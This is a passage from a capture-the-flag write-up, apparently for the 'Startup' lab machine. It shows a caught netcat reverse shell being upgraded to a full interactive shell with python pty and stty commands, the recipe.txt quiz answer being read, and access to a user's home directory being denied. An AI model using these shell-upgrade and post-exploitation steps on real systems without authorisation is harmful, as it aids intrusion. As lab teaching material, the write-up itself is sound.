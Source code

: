 Successfully got a shell! But it's not a full interactive shell yet. To upgrade it:

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
zsh: suspended  nc -lvnp 1234

┌──(kairos㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1234
                               www-data@startup:/$ ls
bin   home            lib         mnt         root  srv  vagrant
boot  incidents       lib64       opt         run   sys  var
dev   initrd.img      lost+found  proc        sbin  tmp  vmlinuz
etc   initrd.img.old  media       recipe.txt  snap  usr  vmlinuz.old
```

Now, we have a full interactive shell and can use more commands/features.

# Secret Spicy Soup Recipe

Question:
What is the secret spicy soup recipe?

From here, we can see a `recipe.txt` file. Let's see what's inside.

```bash
cat recipe.txt
```

```txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

# User Flag

Question:
What are the contents of user.txt?

Knowing that we are `www-data`, we can try to find the user flag. Usually, the user flag should be in the home directory of the user. But... when we go to `/home`:

```bash
www-data@startup:/home$ ls
lennie
```

There's only one user here that isn't us!! Trying to `cd` into the directory, we unfortunately do not have permissions.

```bash
www-data@startup:/home$ cd lennie
Permission denied
```
